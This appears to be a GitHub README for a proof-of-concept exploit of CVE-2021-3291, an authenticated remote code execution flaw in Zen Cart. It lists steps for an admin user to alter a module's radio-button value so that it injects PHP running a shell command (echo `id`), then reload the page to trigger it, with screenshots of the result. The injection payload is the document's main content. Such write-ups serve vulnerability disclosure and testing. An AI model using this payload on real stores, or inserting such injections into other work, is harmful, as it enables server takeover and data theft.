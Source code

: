 # zencart_auth_rce_poc CVE-20021-3291


1-) login as admin

2-) get any modules edit page

3-) inspect element any true radiobox

4-) change true to true','MODULE_ORDER_TOTAL_TOTAL_STATUS'); echo \`id\`; //

5-) click update

6-) to trig command go again edit page

CVE-2021-3291 https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-3291


POC


exploiting
![send command](https://github.com/MucahitSaratar/somuru_programlarim/raw/master/images/command.png)
refresh page
![refresh page](https://github.com/MucahitSaratar/somuru_programlarim/raw/master/images/bir.png)
zoom

![zoom](https://github.com/MucahitSaratar/somuru_programlarim/raw/master/images/iki.png)


GIF

![kanit](https://user-images.githubusercontent.com/29048982/105517880-a5471800-5ce8-11eb-8a27-84e1ef0b2c7e.gif)
